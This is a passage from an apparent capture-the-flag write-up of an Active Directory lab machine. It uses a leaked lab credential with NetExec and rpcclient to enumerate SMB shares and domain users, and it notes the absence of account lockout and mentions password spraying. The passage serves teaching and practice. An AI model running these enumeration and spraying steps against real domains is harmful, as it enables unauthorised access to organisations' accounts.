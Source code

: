 	judith.mader:judith09

<br><br>

Net Exec for example gives us the shares hosted on the box:

<br>

	$ nxc smb 10.10.11.41 -d certified.htb -u judith.mader -p judith09 --shares
	SMB         10.10.11.41     445    DC01             ADMIN$                      Remote Admin
	SMB         10.10.11.41     445    DC01             C$                          Default share
	SMB         10.10.11.41     445    DC01             IPC$            READ        Remote IPC
	SMB         10.10.11.41     445    DC01             NETLOGON        READ        Logon server share 
	SMB         10.10.11.41     445    DC01             SYSVOL          READ        Logon server share

<br>

Unfortunately we don't find anything useful in them. We can try to access later with a new set of credetnials to see if anything changes.

<br><br>

rpcclient immediatly let us retrieve a _list of users_:

	$ rpcclient -U "judith.mader%judith09" certified   
	rpcclient $> enumdomusers
	user:[Administrator] rid:[0x1f4]
	user:[Guest] rid:[0x1f5]
	user:[krbtgt] rid:[0x1f6]
	user:[judith.mader] rid:[0x44f]
	user:[management_svc] rid:[0x451]
	user:[ca_operator] rid:[0x452]
	user:[alexander.huges] rid:[0x641]
	user:[harry.wilson] rid:[0x642]
	user:[gregory.cameron] rid:[0x643]

<br>

management_svc seems quite important and also ca_operator, along with the machine's name suggests that we're dealing with *AD CS*. 

<br><br>

Enumerating Password Policy shows that minimum password length it is 7 chars, password complexity is turned off (this means users can choose short and weak passwords) and most importantly there is no *Account Lockout Threshold*, which means we can *bruteforce* account withouth fearing that they get locked out. In a regular pentest, we would have fired responder at the *beginning* of the assessment, and now we would be spraying judith's password over all the users we found, but i won't show that here cause is not useful to the CTF purpose.

<br>

![Pasted image 20241105185001](https://github.com/user-attachments/assets/842fd77b-705f-4838-b560-5379bfb095b3)

<br><br>

Next step is ldapdomaindump, a useful tool which collects ldap data and gives results in various formats like html and json. 
I like it cause it gives back lists of objects like users, groups and computers with a nice output. This is the command used:
